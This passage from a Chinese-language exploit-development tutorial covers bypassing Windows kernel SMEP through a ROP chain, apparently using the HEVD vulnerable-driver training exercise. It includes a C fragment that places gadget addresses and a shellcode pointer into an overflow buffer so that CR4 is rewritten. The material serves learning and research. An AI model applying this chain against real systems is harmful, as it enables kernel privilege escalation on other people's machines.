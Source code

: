```plain
}
```

调试中手动 CR4.SMEP=0（注意，之前已经关闭了 KVA）

[![](assets/1706090591-44ec9df7edeb0902296210d1454f6bf7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122131252-e481ad18-b8e4-1.png)

### C. 使用内核 ROP 绕过 SMEP

首先我们需要一个类似于`mov rc4,xxx`的 rop，让`rc4.smep=0`，

参考在 Linux 下进行 ROP 的经验，payload 大致长这样的

```plain
*(unsigned long long*)(stackspace + 0x818) = (unsigned long long)pop_rcx_ret;
    *(unsigned long long*)(stackspace + 0x820) = (unsigned long long)0x00000000002506f8;    //set RCX = currentRC4
    *(unsigned long long*)(stackspace + 0x828) = (unsigned long long)mov_rc4_rcx_ret;
    *(unsigned long long*)(stackspace + 0x830) = (unsigned long long)shellcode_addr;
```

多调试或者编程自动寻找就可以找到了，这里暂时参考[HEVD Exploits – Windows 10 x64 Stack Overflow SMEP Bypass](https://h0mbre.github.io/HEVD_Stackoverflow_SMEP_Bypass_64bit/#)

[![](assets/1706090591-c901df88ee798a6721dbb372ab10e665.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122131406-11050a56-b8e5-1.png)

[![](assets/1706090591-e72e6940b85a8215bb104807bada3fc7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122131418-17d73a2a-b8e5-1.png)

修改 EXP
